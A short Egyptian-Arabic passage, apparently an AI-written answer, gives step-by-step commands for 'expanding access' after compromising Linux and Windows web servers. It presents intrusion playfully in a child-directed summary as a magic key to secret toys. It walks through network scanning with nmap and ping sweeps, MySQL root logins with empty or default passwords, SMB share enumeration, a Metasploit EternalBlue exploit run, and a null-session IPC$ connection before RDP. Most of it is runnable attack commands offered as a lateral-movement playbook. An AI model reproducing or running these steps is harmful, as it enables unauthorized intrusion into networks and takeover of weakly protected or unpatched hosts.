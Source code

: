 **خلاصة للطفل:** زي لما تستخدم مفتاح سحري في بيت اللعب 🗝️، وتفتح ألعاب سرية عشان تكسب كل الكنوز! ✨

---

### **خطوات عملية للـ Pentesting في Expanding Access 🛠️**
دلوقتي خطوات عملية للاستغلال في اختبار الاختراق الأخلاقي:

#### **في لينكس (سيرفر ويب):**
1. **تحقق من وصولك:**
   ```bash
   whoami
   ip addr
   ```
   - خرج مثال: `www-data`, `192.168.1.10`.

2. **اكتشف الخدمات:**
   ```bash
   netstat -tuln
   nmap -sT 192.168.1.0/24
   ```

3. **استغل MySQL:**
   - لو لقيت 3306 مفتوح:
     ```bash
     mysql -h 192.168.1.11 -u root -p
     ```
     - جرب باسوورد فاضي أو `root`.

4. **استغل SMB:**
   ```bash
   smbclient -L 192.168.1.11
   smbclient //192.168.1.11/DATA
   ```

5. **هاجم بـ Metasploit:**
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST 192.168.1.11
   run
   ```

#### **في ويندوز (سيرفر ويب):**
1. **تحقق من وصولك:**
   ```cmd
   whoami
   ipconfig
   ```

2. **اكتشف الخدمات:**
   ```cmd
   netstat -ano
   for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i
   ```

3. **استغل RDP:**
   - لو لقيت 3389:
     ```cmd
     net use \\192.168.1.11\IPC$ /user:administrator ""
     rdesktop 192.168.1.11
     ```
